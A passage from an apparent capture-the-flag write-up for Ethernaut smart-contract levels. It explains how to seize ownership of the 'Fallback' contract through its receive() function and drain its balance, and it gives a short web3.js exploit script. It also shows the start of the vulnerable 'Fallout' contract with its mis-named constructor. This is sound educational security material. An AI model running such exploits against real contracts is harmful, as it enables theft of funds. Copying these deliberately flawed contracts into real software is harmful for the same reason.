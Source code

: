 ```solidity
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

- Our goal is to claim ownership of the contract and to reduce its balance to 0. To do that, we have to call the fallback function receive(), where the owner is set to msg.sender.
- To pass the require check in receive function, we have to contribute some ether to the contract using the contribute() function and then call the contract with empty data field to trigger receive function.
- To reduce the balance to 0, we simply have to call withdraw() function and it will transfer all the amount to our account.

```js
// Exploit
await web3.eth.sendTransaction({
  from: player,
  to: contract.address,
  data: web3.eth.abi.encodeFunctionSignature("contribute()"),
  value: 10 ** 14,
});
await web3.eth.sendTransaction({
  from: player,
  to: contract.address,
  data: "",
  value: 10 ** 10,
});
await contract.withdraw();
```

### Fallout

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {

  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }
```